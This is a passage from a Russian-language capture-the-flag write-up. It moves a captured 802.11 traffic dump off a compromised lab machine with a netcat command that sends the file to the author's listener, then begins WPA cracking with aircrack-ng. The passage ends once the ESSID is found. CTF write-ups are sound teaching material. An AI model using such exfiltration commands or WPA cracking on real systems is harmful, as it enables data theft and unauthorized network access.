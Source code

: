 ```text
-rw-r--r-- 1 zeus zeus   6358 Apr  8 00:58 CONTRIBUTING.md
-rw-r--r-- 1 zeus zeus   3283 Apr  8 00:58 Dockerfile
-rw-r--r-- 1 zeus zeus  34940 Apr  8 00:58 LICENSE.md
-rw-r--r-- 1 zeus zeus   4425 Apr  8 00:58 README.md
-rw-r--r-- 1 zeus zeus 297711 Apr  8 00:58 airgeddon.sh
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 binaries
drwxr-xr-x 1 zeus zeus   4096 Apr  8 17:31 captured
drwxr-xr-x 1 zeus zeus   4096 Apr  8 00:59 imgs
-rw-r--r-- 1 zeus zeus  16315 Apr  8 00:58 known_pins.db
-rw-r--r-- 1 zeus zeus 685345 Apr  8 00:58 language_strings.sh
-rw-r--r-- 1 zeus zeus     33 Apr  8 00:58 pindb_checksum.txt

$ cd captured

$ ls -la
total 304
drwxr-xr-x 1 zeus zeus   4096 Apr  8 17:31 .
drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 ..
-rw-r--r-- 1 zeus zeus 297917 Apr  8 12:48 captured.cap
-rw-r--r-- 1 zeus zeus     57 Apr  8 17:30 papyrus.txt
```

```text
$ cat papyrus.txt
Captured while flying. I'll banish him to Olympia - Zeus
```

```text
$ file captured.cap
captured.cap: tcpdump capture file (little-endian) - version 2.4 (802.11, capture length 65535)
```

`airgeddon` — это такой bash-скрипт (от создателя бокса, кстати), который автоматизирует аудит беспроводных сетей (в основном позволяет легче управляться с `aircrack-ng`), поэтому нетрудно догадаться, что предстоит делать дальше.

Забираем дамп трафика к себе на машину (вспоминая, как было бы удобно сделать это в один клик из-под meterpreter-сессии):
```text
$ nc -w3 10.10.14.14 8888 < captured/captured.cap
```

```text
root@kali:~# nc -nlvvp 8888 > captured.cap
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.83.
Ncat: Connection from 10.10.10.83:36924.
NCAT DEBUG: Closing fd 5.
```

И повозимся немного с ним.

### Ломаем 802.11 WPA
Чтобы узнать имя беспроводной сети (ESSID), можно открыть дамп Wireshark'ом или же просто прогнать на нем aircrack-ng без параметров:
```text
root@kali:~# aircrack-ng captured.cap
Opening captured.cap
Read 6498 packets.

   #  BSSID              ESSID                     Encryption

   1  F4:EC:38:AB:A8:A9  Too_cl0se_to_th3_Sun      WPA (1 handshake)
...
```
